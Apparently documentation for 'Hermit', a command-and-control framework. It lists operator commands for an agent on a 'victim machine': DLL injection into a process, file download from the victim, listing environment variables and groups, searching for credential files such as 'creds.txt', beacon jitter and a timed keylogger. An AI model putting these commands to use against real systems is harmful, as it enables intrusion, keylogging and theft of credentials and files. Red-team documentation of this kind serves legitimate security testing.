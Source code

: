 Injects DLL into specified process.

```sh
# -p: target process ID
# -f: a DLL file path
Hermit [agent-abcd] > dll -p 1234 -f /path/to/example.dll
```

To see running processes and check PIDs, use `ps ls` task.  

## `download`

Downloads a file from victim machine.

```sh
Hermit [agent-abcd] > download C:/Users/John/Desktop/example.txt /tmp/example.txt
```

## `env`

### `env ls`, `envs`

Lists environment variables in victim machine.

## `find`

Find files or directories that contain the specified strings.

```sh
# -n: Specified strings
Hermit [agent-abcd] > find -n "creds.txt" ./
```

## `group`

### `group ls`, `groups`

Lists local groups in victim machine.

## `jitter`

Changes the Jitter time (N seconds).

```sh
Hermit [agent-abcd] > jitter 10
```

## `keylog`

Runs keylogger for N seconds.

```sh
# Keylogging for one minute.
Hermit [agent-abcd] > keylog 60
```
